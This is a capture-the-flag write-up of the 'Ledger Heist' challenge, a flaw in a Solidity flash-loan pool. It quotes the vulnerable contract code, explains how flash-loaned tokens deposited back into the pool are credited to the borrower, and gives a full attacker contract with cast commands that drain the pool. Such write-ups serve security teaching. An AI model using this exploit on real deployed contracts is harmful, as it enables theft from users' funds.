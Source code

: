 ## Ledger Heist

## code / Description
```solidity
function deposit(uint256 amount) external {
    address _msgsender = msg.sender;

    _updateFees(_msgsender);
    IERC20Minimal(underlying).transferFrom(_msgsender, address(this), amount);

    _mint(_msgsender, amount);
}
```

```solidity
function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
    external
    returns (bool)
{
    if (token != underlying) {
        revert NotSupported(token);
    }

    IERC20Minimal _token = IERC20Minimal(underlying);
    uint256 _balanceBefore = _token.balanceOf(address(this));

    if (amount > _balanceBefore) {
        revert InsufficientBalance();
    }

    uint256 _fee = _computeFee(amount);
    _token.transfer(address(receiver), amount);

    if (
        receiver.onFlashLoan(msg.sender, underlying, amount, _fee, data)
            != keccak256("ERC3156FlashBorrower.onFlashLoan")
    ) {
        revert CallbackFailed();
    }

    uint256 _balanceAfter = _token.balanceOf(address(this));
    if (_balanceAfter < _balanceBefore + _fee) {
        revert LoanNotRepaid();
    }

    // Accumulate fees and update feePerShare
    uint256 interest = _balanceAfter - _balanceBefore;
    feePerShare += interest.fixedDivFloor(totalSupply, BONE);

    emit FlashLoanSuccessful(address(receiver), msg.sender, token, amount, _fee);
    return true;
}
```



## Challenge Analysis

This challenge revolves around a smart contract that implements a flash loan feature, which allows borrowing assets with the obligation of returning them within the same transaction. The vulnerability arises from improper handling of the loan repayment mechanism. The contract permits the depositing of flash-loaned assets directly back into the pool without proper validation of the repayment source or completion status. This flaw, combined with a faulty deposit function, results in the minting of tokens to the sender and improperly assigns credit, which the sender can later withdraw, leading to the potential draining of ETH from the contract.


## Solution

1. Deploy Attacker Contract: First, deploy an attacker contract implementing IERC3156FlashBorrower. In the constructor of this contract, set the target flash loan pool, approve the flash loan amount, and prepare for receiving the loan by setting the maximum loan amount and ensuring the contract can handle the token involved.

```solidity
contract BadBorrower is IERC3156FlashBorrower {
    address target;
    uint maxloan;
    address underlying;

    constructor(address _target) {
        target = _target;
        underlying = ILoanPool(_target).underlying(); 
        maxloan = ILoanPool(_target).maxFlashLoan(underlying);

        try IToken(underlying).approve(_target, type(uint256).max) {} catch {
            revert("cant add LoanPool to attacker allowancea");
        }
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) public returns (bytes32) {
        ILoanPool(msg.sender).deposit(amount);
        IToken(token).transferFrom(tx.origin, msg.sender, fee);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function withdraw() public {
        try ILoanPool(target).withdraw(maxloan) {
        } catch {
            revert("cant withdraw!");   
        }
    }
}
```



2. Approve Attacker Contract: Next, approve the attacker contract to transfer the required token amount to the flash loan contract to cover the flash loan fee. This is necessary to meet the requirements of the flash loan mechanism, specifically for repayment.

```bash
cast send <UNDERLYING_TOKEN_ADDRESS> "approve(address,uint256)" <TARGET_CONTRACT_ADDRESS> 9999999999999999999999 --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


3. Initiate Flash Loan: Trigger a flash loan from the attacker contract. The onFlashLoan function within this contract is designed to misuse the deposit mechanism: it deposits the flash-loaned amount back into the loan pool, exploiting the flawed logic to mint new tokens or credit to the attacker contract.

```bash
cast send <TARGET_CONTRACT_ADDRESS> "flashLoan(IERC3156FlashBorrower,address,uint256,bytes)" <ATTACKER_CONTRACT_ADDRESS> <UNDERLYING_TOKEN_ADDRESS> 10000000000000000000 0x --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```


4. Handle Loan and Fee in onFlashLoan: Within the onFlashLoan execution context the borrowed tokens are deposited back into the pool using the deposit function. This action satisfies the loan's return requirements while simultaneously credits the sender and mints additional tokens, effectively leveraging the return of the loaned tokens. Subsequently, the loan fee is paid from the external owner's account (EOA). This step ensures that the flash loan requirements are met.

```solidity
ILoanPool(msg.sender).deposit(amount);
IToken(token).transferFrom(tx.origin, msg.sender, fee);
```


5. Withdraw Assets: Finally, call the withdraw function on the attacker contract, which, in turn, calls the withdraw function on the flash loan contract. Since the attacker contract's balance has been artificially inflated through the earlier deposit, this step allows withdrawing more assets than should be possible, effectively draining ETH from the flash loan contract.

```bash
cast send <ATTACKER_CONTRACT_ADDRESS> "withdraw()" --rpc-url <RPC_URL> --private-key <PRIVATE_KEY>
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)